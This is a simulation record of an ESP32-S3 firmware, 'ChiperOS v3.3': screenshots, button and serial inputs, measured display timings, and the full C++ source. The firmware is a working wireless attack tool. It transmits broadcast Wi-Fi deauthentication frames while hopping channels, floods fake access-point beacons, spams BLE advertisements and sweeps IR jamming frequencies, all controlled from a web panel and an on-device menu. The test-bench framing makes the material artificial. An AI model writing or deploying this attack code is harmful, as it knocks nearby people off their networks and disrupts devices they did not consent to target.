
This program was run on a simulated ESP32-S3. Parts: 240×135 colour display, output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: GPIO 0 (BTN_UP) HIGH, GPIO 1 (BTN_SEL) HIGH, GPIO 2 (BTN_DOWN) HIGH. Random numbers use the default seed unless the program sets one; EEPROM starts erased; pins used as bus, display or sensor lines are not drawn; what the program prints to the serial monitor is not drawn.

Above: at 3.2 s.
3.3 s: HTTP request GET /safe received
At 4.5 s:

4.8 s: GPIO 0 (BTN_UP) pulled LOW for 1 s
At 6.9 s:

7.3 s: GPIO 1 (BTN_SEL) pulled LOW for 1 s
At 9.4 s:

9.8 s: GPIO 2 (BTN_DOWN) pulled LOW for 3.2 s
At 14.1 s:

14.5 s: GPIO 1 (BTN_SEL) pulled LOW for 3.2 s
At 15.7 s:

18.3 s: "EXIT\n" received over Serial
At 19.5 s:

Timing chart, 0 to 21.1 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 3.3 s, the display: changes at once (image 1)
- after the input at 4.8 s, the display: first changes after 0.29 s (image 2 shows a later state)
- after the input at 7.3 s, the display: changes after 0.30 s (image 3)
- after the input at 9.8 s, the display: first changes after 0.30 s (image 4 shows a later state)
- after the input at 14.5 s, the display: first changes after 0.29 s (image 5 shows a later state)
- after the input at 18.3 s, GPIO 38 (IR1), GPIO 39 (IR2), GPIO 40 (IR3): 0/255 → 85/255 after 0.36 s
- what the display in image 5 shows lasts 0.7 s, from 15.2 s to 15.9 s

The program:

main.cpp
```cpp
// 🛡️ ChiperOS v3.3 - Fixed Scope Errors + Bruce Menu + Animations
#include <Arduino.h>
#include <WiFi.h>
#include <WebServer.h>
#include <TFT_eSPI.h>
#include <BLEDevice.h>
#include <BLEUtils.h>
#include <esp_wifi.h>
#include <driver/ledc.h>
#include <esp_task_wdt.h>
#include <Preferences.h>

// === PINS ===
#define BTN_UP    0
#define BTN_SEL   1
#define BTN_DOWN  2
#define IR1 38
#define IR2 39
#define IR3 40

// === GLOBALS ===
TFT_eSPI tft = TFT_eSPI();
WebServer server(80);
Preferences prefs;

enum Mode { WEB_MODE, ATTACK_MODE, SAFE_MODE };
Mode currentMode = WEB_MODE;
bool deauthOn = false, fakeApOn = false, bleOn = false, irGunOn = false;
unsigned long lastDeauth = 0, lastBle = 0, lastFakeAp = 0, lastIr = 0;
unsigned long lastWebRequest = 0, lastLoop = 0;
unsigned long bootTime = 0;
int crashCount = 0;
bool inSafeMode = false;

enum MenuLevel { MAIN, WIFI_MENU, IR_MENU, BT_MENU, SET_MENU };
MenuLevel currentMenu = MAIN;
int menuIdx = 0;
int maxIdx = 0;

typedef void (*MenuAction)();

struct MenuItem {
  const char* name;
  MenuAction action;
};

// === FORWARD DECLARATIONS (Fixes "not declared in scope") ===
void tftDrawMenu();
void tftDrawAnim(const String& msg);
void switchMode();void enterSafeMode();
void handleSerialCommand();
void checkRecovery();
void handleButtons();

// === MENU DEFINITIONS ===
MenuItem mainMenu[] = {
  {"WIFI", nullptr},
  {"IR", nullptr},
  {"Bluetooth", nullptr},
  {"Setting", nullptr}
};

MenuItem wifiMenu[] = {
  {"WiFi Scan", [](){ tftDrawAnim("Scanning WiFi..."); delay(500); int n=WiFi.scanNetworks(); tftDrawAnim("Found: " + String(n) + " nets"); }},
  {"WiFi Attack", [](){ fakeApOn=!fakeApOn; switchMode(); tftDrawAnim(fakeApOn?"Fake AP: ON":"Fake AP: OFF"); }},
  {"WiFi Deauther", [](){ deauthOn=!deauthOn; switchMode(); tftDrawAnim(deauthOn?"Deauth: ON":"Deauth: OFF"); }},
  {"EXIT", [](){ currentMenu=MAIN; menuIdx=0; tftDrawMenu(); }}
};

MenuItem irMenu[] = {
  {"IR Attack (Sel)", [](){ irGunOn=!irGunOn; tftDrawAnim(irGunOn?"IR Sweep: ON":"IR Sweep: OFF"); }},
  {"IR Record", [](){ tftDrawAnim("Recording... (Stub)"); }},
  {"Playback SD (BETA)", [](){ tftDrawAnim("SD Playback (Stub)"); }},
  {"EXIT", [](){ currentMenu=MAIN; menuIdx=0; tftDrawMenu(); }}
};

MenuItem btMenu[] = {
  {"BT Scan", [](){ tftDrawAnim("Scanning BLE..."); }},
  {"BT Attack", [](){ bleOn=!bleOn; if(bleOn) BLEDevice::init("ESP32-S3"); tftDrawAnim(bleOn?"BLE Spam: ON":"BLE Spam: OFF"); }},
  {"EXIT", [](){ currentMenu=MAIN; menuIdx=0; tftDrawMenu(); }}
};

MenuItem setMenu[] = {
  {"Diagnostic Mode", [](){ tftDrawAnim("Heap: " + String(ESP.getFreeHeap()/1024) + "KB"); }},
  {"Device Info", [](){ tftDrawAnim("ESP32-S3 N16R8"); delay(600); tftDrawAnim("PSRAM: " + String(ESP.getPsramSize()/1024) + "MB"); }},
  {"EXIT", [](){ currentMenu=MAIN; menuIdx=0; tftDrawMenu(); }}
};

const char* menuTitles[] = {"MAIN MENU", "WIFI", "IR", "Bluetooth", "Setting"};
MenuItem* activeMenuPtr = mainMenu;

// === ATTACK VARS ===
uint8_t deauthFrame[26] = {
  0xC0, 0x00, 0x3A, 0x01, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0xF0, 0xFF, 0x02, 0x00
};
int irFreq = 30000;
const int irFreqMin = 30000, irFreqMax = 56000, irFreqStep = 500;int irPulseLen = 10;
bool irFwd = true;

// === HTML INTERFACES ===
const char* htmlNormal = R"rawliteral(
<!DOCTYPE html><html><head><meta name="viewport" content="width=device-width, initial-scale=1">
<title>ChiperOS</title><style>body{background:#0d1117;color:#0f0;font-family:monospace;text-align:center;padding:15px}
h1{color:#0ff}.c{background:#111;border:1px solid #333;padding:10px;margin:8px;border-radius:6px}
.b{padding:10px 15px;margin:4px;border:none;border-radius:4px;font-weight:bold;cursor:pointer;color:#fff}
.r{background:#d32f2f}.g{background:#388e3c}.b2{background:#1976d2}
.s{padding:4px;margin:4px;border-radius:3px;font-weight:bold}.on{background:#0f0;color:#000}.off{background:#333;color:#666}</style></head><body>
<h1>🛡️ ChiperOS v3.3</h1>
<div class="c"><h3>WiFi</h3><div id="sD" class="s off">DEAUTH OFF</div><div id="sF" class="s off">FAKE AP OFF</div>
<button class="b r" onclick="t('deauth')">Deauth</button><button class="b g" onclick="t('fakeap')">FakeAP</button></div>
<div class="c"><h3>BLE & IR</h3><div id="sB" class="s off">BLE OFF</div><div id="sI" class="s off">IR SWEEP OFF</div>
<button class="b b2" onclick="t('ble')">BLE Spam</button><button class="b r" onclick="t('ir')">IR Sweep</button></div>
<div class="c" id="st">Loading...</div>
<script>function t(a){fetch('/'+a).then(r=>r.text()).then(d=>{document.getElementById('st').innerHTML=d;update();});}
function update(){fetch('/st').then(r=>r.text()).then(d=>{
  document.getElementById('sD').className='s '+(d.includes('DEAUTH:ON')?'on':'off');
  document.getElementById('sF').className='s '+(d.includes('FAKE:ON')?'on':'off');
  document.getElementById('sB').className='s '+(d.includes('BLE:ON')?'on':'off');
  document.getElementById('sI').className='s '+(d.includes('IR:ON')?'on':'off');
  document.getElementById('st').innerHTML=d;});}
setInterval(update,1000);update();</script></body></html>
)rawliteral";

const char* htmlSafe = R"rawliteral(
<!DOCTYPE html><html><head><meta charset="UTF-8"><title>ChiperOS - SAFE</title>
<style>body{background:#1a0000;color:#ff6b6b;font-family:monospace;text-align:center;padding:20px}
h1{color:#ff4444}.warn{background:#330000;border:2px solid #ff4444;padding:15px;margin:10px;border-radius:8px}
.b{padding:12px 20px;margin:10px;border:none;border-radius:5px;font-weight:bold;cursor:pointer;font-size:16px}
.red{background:#d32f2f;color:#fff}.green{background:#388e3c;color:#fff}</style></head><body>
<h1>⚠️ SAFE MODE</h1><div class="warn">System recovered. Attacks disabled.</div>
<button class="green" onclick="fetch('/exit').then(()=>location.reload())">✅ Exit Safe Mode</button>
<button class="red" onclick="fetch('/reset').then(()=>location.reload())">🔄 Full Reset</button>
<script>setInterval(()=>fetch('/st').then(r=>r.json()).then(d=>{document.body.innerHTML+='<br>Heap:'+d.h+'KB';}),2000);</script></body></html>
)rawliteral";

// === SETUP ===
void setup() {
  Serial.begin(115200);
  pinMode(BTN_UP, INPUT_PULLUP);
  pinMode(BTN_SEL, INPUT_PULLUP);
  pinMode(BTN_DOWN, INPUT_PULLUP);

  prefs.begin("chiper", false);
  bootTime = millis();
  crashCount = prefs.getInt("crashes", 0);
  if (crashCount >= 3) enterSafeMode();  else prefs.putInt("crashes", crashCount + 1);

  esp_task_wdt_init(10, true);
  esp_task_wdt_add(NULL);

  delay(800);
  tft.init(); tft.setRotation(1); tft.fillScreen(TFT_BLACK);
  if (TFT_BL >= 0) { pinMode(TFT_BL, OUTPUT); digitalWrite(TFT_BL, HIGH); }

  // Boot Animation
  tft.setTextColor(TFT_CYAN, TFT_BLACK); tft.setTextFont(4);
  tft.drawString("§§§", 120 - tft.textWidth("§§§")/2, 60);
  tft.setTextColor(TFT_GREEN, TFT_BLACK); tft.setTextFont(2);
  tft.drawString("Welcome to ChiperOS", 120 - tft.textWidth("Welcome to ChiperOS")/2, 100);
  tft.setTextColor(TFT_YELLOW, TFT_BLACK);
  tft.fillRect(20, 140, 200, 10, TFT_DARKGREY);
  for(int i=0; i<=200; i+=20) { tft.fillRect(20, 140, i, 10, TFT_GREEN); delay(40); }
  delay(500);

  tft.fillScreen(TFT_BLACK);
  Serial.println("✅ ChiperOS v3.3 Ready");

  // IR PWM
  ledcSetup(0, 38000, 8); ledcAttachPin(IR1, 0);
  ledcSetup(1, 38000, 8); ledcAttachPin(IR2, 1);
  ledcSetup(2, 38000, 8); ledcAttachPin(IR3, 2);
  ledcWrite(0, 0); ledcWrite(1, 0); ledcWrite(2, 0);

  memcpy(&deauthFrame[16], &deauthFrame[10], 6);

  WiFi.softAPConfig(IPAddress(192,168,4,1), IPAddress(192,168,4,1), IPAddress(255,255,255,0));
  WiFi.softAP("ChiperOS", "12345678");

  server.on("/", [](){ lastWebRequest = millis(); server.send(200, "text/html", inSafeMode ? htmlSafe : htmlNormal); });
  server.on("/deauth", [](){ if(!inSafeMode){deauthOn=!deauthOn; switchMode();} server.send(200,"text/plain",deauthOn?"DEAUTH:ON":"DEAUTH:OFF"); });
  server.on("/fakeap", [](){ if(!inSafeMode){fakeApOn=!fakeApOn; switchMode();} server.send(200,"text/plain",fakeApOn?"FAKE:ON":"FAKE:OFF"); });
  server.on("/ble", [](){ if(!inSafeMode){bleOn=!bleOn; if(bleOn)BLEDevice::init("ESP32-S3");} server.send(200,"text/plain",bleOn?"BLE:ON":"BLE:OFF"); });
  server.on("/ir", [](){ if(!inSafeMode){irGunOn=!irGunOn; irFreq=irFreqMin;} server.send(200,"text/plain",irGunOn?"IR SWEEP ON":"IR SWEEP OFF"); });
  server.on("/reset", [](){ server.send(200,"text/plain","Resetting..."); delay(100); ESP.restart(); });
  server.on("/safe", [](){ enterSafeMode(); server.send(200,"text/plain","Entering Safe Mode"); });
  server.on("/exit", [](){ if(inSafeMode){ inSafeMode=false; prefs.putInt("crashes",0); switchMode();} server.send(200,"text/plain","Exiting Safe Mode"); });
  server.on("/st", [](){
    if (inSafeMode) {
      server.send(200, "application/json", "{\"h\":" + String(ESP.getFreeHeap()/1024) + "}");
    } else {
      String s = String("DEAUTH:") + (deauthOn ? "ON" : "OFF") +
                 "|FAKE:" + (fakeApOn ? "ON" : "OFF") +
                 "|BLE:" + (bleOn ? "ON" : "OFF") +
                 "|IR:" + (irGunOn ? "ON" : "OFF");
      s += "<br>Heap:" + String(ESP.getFreeHeap()/1024) + "KB Uptime:" + String((millis()-bootTime)/1000) + "s";      server.send(200, "text/html", s);
    }
  });
  server.begin();

  tftDrawMenu();
  esp_task_wdt_reset();
  lastLoop = millis();
}

// === MODE & SYSTEM ===
void switchMode() {
  if (inSafeMode) return;
  bool attack = deauthOn || fakeApOn || bleOn;
  if(attack && currentMode==WEB_MODE){
    currentMode=ATTACK_MODE; server.stop(); WiFi.softAPdisconnect(true); esp_wifi_set_promiscuous(true);
  } else if(!attack && currentMode==ATTACK_MODE){
    currentMode=WEB_MODE; esp_wifi_set_promiscuous(false); WiFi.mode(WIFI_MODE_AP); WiFi.softAP("ChiperOS","12345678"); server.begin();
  }
}

void enterSafeMode() {
  inSafeMode = true; currentMode = WEB_MODE;
  deauthOn = fakeApOn = bleOn = irGunOn = false;
  esp_wifi_set_promiscuous(false); BLEDevice::deinit();
  Serial.println("🛡️ SAFE MODE ACTIVATED");
  tft.fillScreen(TFT_BLACK); tft.setTextColor(TFT_RED); tft.drawString("⚠️ SAFE MODE", 10, 10);
  tft.setTextColor(TFT_WHITE); tft.drawString("Use Web or Serial to exit", 10, 30);
}

void checkRecovery() {
  if (!inSafeMode && millis() - lastWebRequest > 30000 && lastWebRequest > 0) {
    server.stop(); delay(100); server.begin(); lastWebRequest = millis();
  }
  if (millis() - lastLoop > 5000) { while(1) delay(1); }
  if (!inSafeMode && millis() - bootTime > 120000 && prefs.getInt("crashes",0) > 0) {
    prefs.putInt("crashes", 0); Serial.println("✅ Stable 2min - crash counter reset");
  }
}

void handleSerialCommand() {
  if (Serial.available()) {
    String cmd = Serial.readStringUntil('\n'); cmd.trim(); cmd.toUpperCase();
    if (cmd == "RESET") ESP.restart();
    else if (cmd == "SAFE") enterSafeMode();
    else if (cmd == "EXIT" && inSafeMode) { inSafeMode=false; prefs.putInt("crashes",0); switchMode(); }
    else if (cmd == "STOP") { deauthOn=fakeApOn=bleOn=irGunOn=false; switchMode(); }
  }
}
// === BUTTON & MENU ===
void handleButtons() {
  static unsigned long lastPress = 0;
  static bool btnHold = false;
  static unsigned long holdStart = 0;

  if (digitalRead(BTN_UP) == LOW || digitalRead(BTN_DOWN) == LOW || digitalRead(BTN_SEL) == LOW) {
    if (!btnHold) { lastPress = millis(); btnHold = true; holdStart = millis(); }
    if (digitalRead(BTN_UP) == LOW && digitalRead(BTN_DOWN) == LOW) {
      if (millis() - holdStart > 2000) { Serial.println("🚨 Emergency Combo"); enterSafeMode(); btnHold = false; }
      return;
    }
    if (millis() - lastPress > 250 && btnHold) {
      btnHold = false;
      if (digitalRead(BTN_UP) == LOW) { menuIdx = (menuIdx > 0) ? menuIdx - 1 : maxIdx; tftDrawMenu(); }
      else if (digitalRead(BTN_DOWN) == LOW) { menuIdx = (menuIdx < maxIdx) ? menuIdx + 1 : 0; tftDrawMenu(); }
      else if (digitalRead(BTN_SEL) == LOW) {
        if (currentMenu == MAIN) {
          if (menuIdx == 0) { currentMenu = WIFI_MENU; activeMenuPtr = wifiMenu; maxIdx = 3; }
          else if (menuIdx == 1) { currentMenu = IR_MENU; activeMenuPtr = irMenu; maxIdx = 3; }
          else if (menuIdx == 2) { currentMenu = BT_MENU; activeMenuPtr = btMenu; maxIdx = 2; }
          else if (menuIdx == 3) { currentMenu = SET_MENU; activeMenuPtr = setMenu; maxIdx = 2; }
          menuIdx = 0; tftDrawMenu();
        } else {
          if (activeMenuPtr[menuIdx].action) activeMenuPtr[menuIdx].action();
        }
      }
    }
  } else { btnHold = false; }
}

void tftDrawMenu() {
  tft.fillScreen(TFT_BLACK);
  tft.setTextColor(TFT_CYAN, TFT_BLACK); tft.setTextFont(2);
  tft.drawString(menuTitles[currentMenu], 120 - tft.textWidth(menuTitles[currentMenu])/2, 5);
  maxIdx = (currentMenu==MAIN)?3:(currentMenu==WIFI_MENU)?3:(currentMenu==IR_MENU)?3:(currentMenu==BT_MENU)?2:2;
  activeMenuPtr = (currentMenu==MAIN)?mainMenu:(currentMenu==WIFI_MENU)?wifiMenu:(currentMenu==IR_MENU)?irMenu:(currentMenu==BT_MENU)?btMenu:setMenu;
  for(int i=0; i<=maxIdx; i++) {
    int y = 30 + i*35;
    if(i == menuIdx) { tft.fillRect(5, y-2, 230, 30, TFT_DARKGREEN); tft.setTextColor(TFT_BLACK, TFT_DARKGREEN); }
    else { tft.setTextColor(TFT_LIGHTGREY, TFT_BLACK); }
    tft.drawString(" " + String(activeMenuPtr[i].name), 10, y);
  }
}

void tftDrawAnim(const String& msg) {
  tft.fillScreen(TFT_BLACK);
  tft.setTextColor(TFT_YELLOW, TFT_BLACK); tft.setTextFont(2);
  tft.drawString(msg, 120 - tft.textWidth(msg)/2, 80);
  tft.fillRect(20, 120, 200, 8, TFT_DARKGREY);  for(int i=0; i<=200; i+=20) { tft.fillRect(20, 120, i, 8, TFT_GREEN); delay(40); }
  delay(600); tftDrawMenu();
}

// === ATTACK LOGIC ===
void sendFakeAP() {
  uint8_t b[128]; memset(b,0,128);
  b[0]=0x80; b[1]=0x00; memset(&b[4],0xFF,6);
  b[10]=0x02; b[11]=0x00; b[12]=0x00; b[13]=0x00; b[14]=0x00; b[15]=random(6);
  memcpy(&b[16],&b[10],6);
  uint64_t ts = (uint64_t)esp_timer_get_time();
  memcpy(&b[24], &ts, 8);
  b[32]=0xE8; b[33]=0x03; b[34]=0x01; b[35]=0x00;
  int p=36; String n="LOL_BRO"; b[p++]=0x00; b[p++]=n.length(); memcpy(&b[p],n.c_str(),n.length()); p+=n.length();
  b[p++]=0x01; b[p++]=0x08; b[p++]=0x82; b[p++]=0x84; b[p++]=0x8B; b[p++]=0x96; b[p++]=0x24; b[p++]=0x30; b[p++]=0x48; b[p++]=0x6C;
  esp_wifi_80211_tx(WIFI_IF_AP, b, p, false);
}

// === MAIN LOOP ===
void loop() {
  esp_task_wdt_reset();
  lastLoop = millis();

  // FIX: comboStart declared here, visible in both if/else
  static unsigned long comboStart = 0;

  if (currentMode == WEB_MODE || inSafeMode) {
    handleButtons();
    server.handleClient();
  } else {
    if (digitalRead(BTN_UP) == LOW && digitalRead(BTN_DOWN) == LOW) {
      if (comboStart == 0) comboStart = millis();
      if (millis() - comboStart > 2000) { enterSafeMode(); comboStart = 0; }
    } else {
      comboStart = 0; // Now correctly in scope
    }
  }

  checkRecovery();
  handleSerialCommand();

  if (!inSafeMode) {
    if (deauthOn && millis()-lastDeauth>10) {
      lastDeauth=millis();
      static int ch=1; esp_wifi_set_channel(ch, WIFI_SECOND_CHAN_NONE);
      ch=(ch==1)?6:(ch==6)?11:1;
      deauthFrame[22]=random(256); deauthFrame[23]=random(256);
      esp_wifi_80211_tx(WIFI_IF_AP, deauthFrame, 26, false);
    }
    if (fakeApOn && millis()-lastFakeAp>200) { lastFakeAp=millis(); sendFakeAP(); }    if (bleOn && millis()-lastBle>100) {
      lastBle=millis();
      BLEAdvertising* p=BLEDevice::getAdvertising(); p->stop();
      p->addServiceUUID(BLEUUID((uint16_t)random(0x1800,0x2000)));
      p->setMinPreferred(0x06); p->setMaxPreferred(0x12); p->start();
    }
    if (irGunOn && millis()-lastIr > irPulseLen) {
      lastIr = millis();
      ledcSetup(0, irFreq, 8); ledcSetup(1, irFreq, 8); ledcSetup(2, irFreq, 8);
      ledcWrite(0, 85); ledcWrite(1, 85); ledcWrite(2, 85);
      if(irFwd) { irFreq += irFreqStep; if(irFreq >= irFreqMax) { irFreq = irFreqMax; irFwd = false; } }
      else { irFreq -= irFreqStep; if(irFreq <= irFreqMin) { irFreq = irFreqMin; irFwd = true; } }
    }
  }
  yield();
}
```
